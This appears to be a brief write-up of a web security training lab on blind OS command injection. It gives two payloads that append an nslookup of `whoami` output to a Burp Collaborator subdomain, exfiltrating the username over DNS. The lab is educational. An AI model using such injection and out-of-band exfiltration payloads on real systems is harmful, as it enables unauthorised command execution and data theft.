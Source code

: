 # Lab  5 - Blind OS command injection with out-of-band data exfiltration (Running commands like whoami)

`To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.`


### Solution - 

Same process as above but add this payload

- ``` & nslookup `whoami`.zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net # ```

                                      or 

-  ` & nslookup $(whoami).zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net # `

We get the username in the details panel

![image](https://user-images.githubusercontent.com/67383098/225319008-28f90fcf-53d6-4237-b84d-bcd563b8a882.png)





